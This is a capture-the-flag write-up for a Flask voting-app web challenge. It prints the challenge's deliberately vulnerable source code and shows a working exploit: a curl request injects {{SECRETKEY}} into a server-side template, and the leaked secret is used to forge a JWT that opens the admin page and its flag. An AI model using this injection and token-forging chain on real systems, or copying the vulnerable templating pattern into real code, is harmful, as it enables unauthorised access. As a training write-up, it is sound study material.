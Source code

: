 ```yaml
---
layout: writeup
title: Template Token
tags: WebX
---
```


## Description

The citizens are voting, but it’s not the votes that matter - it’s the system that counts them.

Cast your vote, inspect the results… but is that all there is?

Your mission? Break into the admin panel and uncover the flag.

http://redac.ted:5000/

This challenge also provided the `app.py` file


## Solution

Here is the app.py file:

```python
import jwt
import datetime
import os
import re
from flask import Flask, render_template, render_template_string, request, jsonify
from functools import wraps
from dotenv import load_dotenv
from utils import db

load_dotenv()
app = Flask(__name__)

# secret key for our JWT signing! no one should know this
SECRETKEY = os.getenv("SECRETKEY")

def token_required(f):
    @wraps(f)
    def wrapper(*args, **kwargs):
        token = None

        auth_header = request.headers.get("Authorization", None)
        if auth_header and auth_header.startswith("Bearer "):
            token = auth_header.split()[1]

        if not token:
            return jsonify({"message":"Token is missing"}), 401

        try:
            payload = jwt.decode(token, SECRETKEY, algorithms=["HS256"])
            request.jwt_payload = payload

        except jwt.ExpiredSignatureError:
            return jsonify({"message":"Token has expired"}), 401

        except jwt.InvalidTokenError:
            return jsonify({"message":"Token is invalid"}), 401

        return f(*args, **kwargs)

    return wrapper

@app.route("/")
def home():
    return render_template("home.html")

@app.route("/admin")
@token_required
def admin():
    try:
        with open("/flag", "r") as f:
            flag_content = f.read().strip()
    except Exception:
        flag_content = "Unable to read /flag."

    return render_template("admin.html", flag=flag_content)

# sanitisation to prevent XSS and other injection attacks
def sanitize_input(user_input: str) -> str:
    return re.sub(r"[<>?,./;:|\\'\"\[\]\-=\(\)\*&\^%$#@!~]", "", user_input)

from utils import db  # make sure utils/db.py exists and is imported
# ...

@app.route("/vote", methods=["GET", "POST"])
def vote():
    if request.method == "GET":
        # Get candidates from the DB
        candidates = db.fetch_all_candidates()
        return render_template("vote.html", candidates=candidates)

    # POST: register vote
    candidate_raw = request.form.get("candidate", "")
    candidate = sanitize_input(candidate_raw)

    # Record the vote in the DB
    db.add_vote(username='voter', candidate_id=candidate)

    # Confirmation page
    template_source = f"""
    {{% extends "base.html" %}}
    {{% block content %}}
      <div style='text-align:center;padding-top:2rem'>
        <h1>Vote Confirmed</h1>
        You voted for: <br><strong>{candidate}</strong></p>

      </div>
    {{% endblock %}}
    """
    return render_template_string(template_source, **globals())

app.run(host="0.0.0.0", port=5000, debug=True)
```

This is a pretty simple website. There is an `index` page, a `vote` page and an `admin` page. 

In order to see the admin page which has the flag on it, you need a valid JWT token which only allows the `HS256` algorithm and uses a set key, so there are no vulnerabilities there.

The index page just serves a static HTML page, so no vulnerability there

Finally, the vote page gets the user's input, sanitises it, and then displays a page with the said input on it.

Just a quick glance at how the vote page displays the user's input reveals a vulnerability. Instead of using jinja like your supposed to, the program gives the template all globals, and also the user's input is passed in through an f-string in python instead of specifically in jinja. This means that as long as we can get around the sanitisation, we can input jinja code into the template that will be executed. This could be useful for outputing any certain global variables... such as the `SECRETKEY` global variable.

The neccessary jinja to output the secret key would be `{{SECRETKEY}}` lets see if we can get this around the sanitisation.

Lukcily it is a horrible sanitisation method where any of these charcater `[<>?,./;:|\\'\"\[\]\-=\(\)\*&\^%$#@!~]` are removed from the string. Luckily `{` and `}` are not in this list, meaning we just need to vote for `{{SECRETKEY}}` and we get the secret key to sign our own JWT token and login to the admin page which gets us the flag.

```bash
$ curl -X POST "http://3.105.27.130:5000/vote" -d "candidate={{SECRETKEY}}"

    <!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Vote x Vote</title>
    <style>
      body { font-family: Arial, sans-serif; margin: 0; padding: 0; }
      nav { background: #333; padding: 10px; }
      nav a { color: #fff; margin-right: 15px; text-decoration: none; }
      nav a:hover { text-decoration: underline; }
      .container { padding: 20px; }
    </style>
  </head>
  <body>
    <nav>
      <a href="/">Home</a>
      <a href="/vote">Vote</a>      <!-- Added Vote link -->
      <a href="/admin">Admin</a>
    </nav>
    <div class="container">

      <div style='text-align:center;padding-top:2rem'>
        <h1>Vote Confirmed</h1>
        You voted for: <br><strong>ldidyouknowthatshinigamisloveapples</strong></p>

      </div>

    </div>
  </body>
</html>
```

There is the secret key `ldidyouknowthatshinigamisloveapples`

so just some quick python in the terminal using `PyJWT` in order to create out own jwt token

```python
>>> import jwt
>>> jwt.encode({}, "ldidyouknowthatshinigamisloveapples", algorithm="HS256")
'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.e30.dxgk4lCPRN6NdYYweVdcpIz0VSGl3IEV27ZzhxINRjQ'
```

The token checker just makes sure the token is properly signed, not that any info in it is correct, so I just signed an empty payload

Now time to make the request with the token

```bash
$ curl "http://3.105.27.130:5000/admin" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.e30.dxgk4lCPRN6NdYYweVdcpIz0VSGl3IEV27ZzhxINRjQ"
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Vote x Vote</title>
    <style>
      body { font-family: Arial, sans-serif; margin: 0; padding: 0; }
      nav { background: #333; padding: 10px; }
      nav a { color: #fff; margin-right: 15px; text-decoration: none; }
      nav a:hover { text-decoration: underline; }
      .container { padding: 20px; }
    </style>
  </head>
  <body>
    <nav>
      <a href="/">Home</a>
      <a href="/vote">Vote</a>      <!-- Added Vote link -->
      <a href="/admin">Admin</a>
    </nav>
    <div class="container">

  <h1>Admin Dashboard</h1>

  <p style="color: green; font-weight: bold;">
    FLAG: secedu{h0ld_my_s1gn4tur3s_pl34s3}
  </p>

    </div>
  </body>
</html>
```

There's the flag for us `secedu{h0ld_my_s1gn4tur3s_pl34s3}`
